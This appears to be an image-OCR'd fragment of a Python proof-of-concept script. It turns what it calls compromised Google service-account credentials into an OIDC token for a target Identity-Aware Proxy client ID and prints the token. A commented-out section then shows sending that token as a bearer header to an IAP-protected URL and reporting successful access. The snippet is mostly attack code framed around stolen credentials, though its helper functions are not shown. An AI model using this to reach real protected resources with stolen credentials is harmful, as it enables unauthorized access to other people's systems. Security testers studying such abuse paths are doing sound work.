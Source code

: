 
        jwt_assertion = get_jwt_assertion(service_account_secret_dict, target_iap_client_id, oauth_token_uri)
        oidc_token = get_google_open_id_connect_token(jwt_assertion, oauth_token_uri, jwt_bearer_token_grant_type)


        print("[SUCCESS] OIDC Token Generated using compromised credentials:")
        print(oidc_token)
        print("\n[INFO] The above OIDC token can now be used to access IAP protected resources associated with the client ID: ", target_iap_client_id)

        # 5. (Optional - Test Access to IAP Protected Resource):
        # If you have a test IAP-protected endpoint, uncomment the following section to verify access.
        # target_iap_url = "https://service.behind.iap.example.com" # Replace with a test IAP protected URL
        # headers = {"Authorization": f"Bearer {oidc_token}"}
        # try:
        #     response = requests.get(target_iap_url, headers=headers)
        #     print(f"\n[INFO] Attempting to access IAP protected resource: {target_iap_url}")
        #     print(f"[INFO] Response Status Code: {response.status_code}")
        #     if response.status_code == 200:
        #         print("[SUCCESS] Successfully accessed IAP protected resource using compromised credentials!")
        #         # print("Response Content:", response.text) # Uncomment to see response content if needed
        #     else:
        #         print("[FAILURE] Failed to access IAP protected resource. Check IAP configuration and permissions.")
        # except requests.exceptions.RequestException as e:
        #     print(f"[ERROR] Request to IAP protected resource failed: {e}")
